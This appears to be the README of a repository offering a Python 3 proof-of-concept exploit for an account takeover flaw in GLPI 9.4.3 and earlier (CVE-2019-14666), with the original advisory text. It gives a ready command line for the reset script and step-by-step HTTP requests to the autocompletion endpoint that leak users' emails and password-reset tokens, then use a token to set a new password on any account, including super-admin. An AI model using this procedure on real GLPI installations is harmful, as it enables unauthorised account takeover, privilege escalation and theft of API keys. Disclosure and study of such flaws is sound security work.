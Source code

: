 # GLPI-9.4.3-Account-Takeover
Discovery and original PoC made by Pablo Martinez just adjusted slightly for python3

#### Example
python3 reset.py --url http://localhost/ --user normal --password normal --email glpi_adm --newpass test


Sofware: GLPI 
Version: <= 9.4.3 
Discovered by: Pablo Martinez (@Xassiz)
Fix: version 9.4.4
Vulnerability: Account takeover (CVE-2019-14666)
Description:
We've found that it's possible to abuse autocompletion feature to retrieve sensitive data from any user, using an unprivileged account.
Besides hashed session cookies or api keys in cleartext, a malicious user can retrieve the password_forget_token atributte which leads to account takeover when "Lost password" feature is enabled.
The steps are the following:
    1. Choose a known email or get a list of them using autocompletion
        GET /glpi/ajax/autocompletion.php?itemtype=UserEmail&field=email&term=
     
    2. Get a list of all generated tokens
        GET /glpi/ajax/autocompletion.php?itemtype=User&field=password_forget_token&term=
 
    3. Invoke "Lost password" with target email
    4. Get a list of all generated tokens again and compute the difference to get your freshly generated token
 
    5. Set new password using /glpi/front/lostpassword.php?password_forget_token=[token]
    
To sum up: an unprivileged user could steal any account or escalate privileges by changing super-admin password. It's also possible to steal admins' api keys and use them with malicious purposes.
